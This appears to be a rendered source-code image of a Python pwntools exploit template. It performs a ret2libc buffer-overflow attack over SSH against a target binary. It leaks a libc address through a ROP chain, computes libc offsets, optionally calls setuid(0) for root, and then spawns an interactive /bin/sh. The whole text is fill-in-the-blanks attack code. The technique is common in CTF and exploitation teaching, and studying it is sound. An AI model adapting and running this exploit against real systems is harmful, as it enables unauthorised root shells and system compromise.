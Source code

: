 ```python
  PASSWORD = '<PASSWORD>'
  s = ssh(host=HOST, port=PORT, user=USERNAME, password=PASSWORD)
  p = s.process(BINARY)

junk = OFFSET * 'A'

pop_rdi = p64(<ADR_POP_RDI>)
printing_func_plt = p64(<ADR_PLT_PRINTING>)
printing_func_got = p64(<ADR_GOT_PRINTING>)
main_plt = p64(<ADR_MAIN>)

payload = junk + pop_rdi + printing_func_got + printing_func_plt + main_plt

# If needed
# p.recvuntil(<STUFF>)

p.sendline(payload)

# If needed
# p.recvuntil(<STUFF>)

leaked_printing_func = p.recvline()[:-1].ljust(8, '\x00')
leaked_printing_func = u64(leaked_printing_func)
log.success('PRINTING_FUNC@GLIBC addr: 0x{:x}'.format(leaked_printing_func))

libc_printing_func = <ADR_LIBC_PRINTING_FUNC>
libc_system = <ADR_LIBC_SYSTEM>
libc_sh = <ADR_LIBC_SH>

libc_base = leaked_printing_func - libc_printing_func

sys = p64(libc_base + libc_system)
sh = p64(libc_base + libc_sh)

# If a setuid call is needed
libc_setuid = <ADR_LIBC_SETUID>
setuid = p64(libc_base + libc_setuid)

payload = junk
# If a setuid call is needed - here with an EUID = 0 (root)
payload += pop_rdi + p64(0x0) + setuid
payload += pop_rdi + sh + sys

# If needed
# p.recvuntil(<STUFF>)

p.sendline(payload)
time.sleep(1)
p.interactive()
```

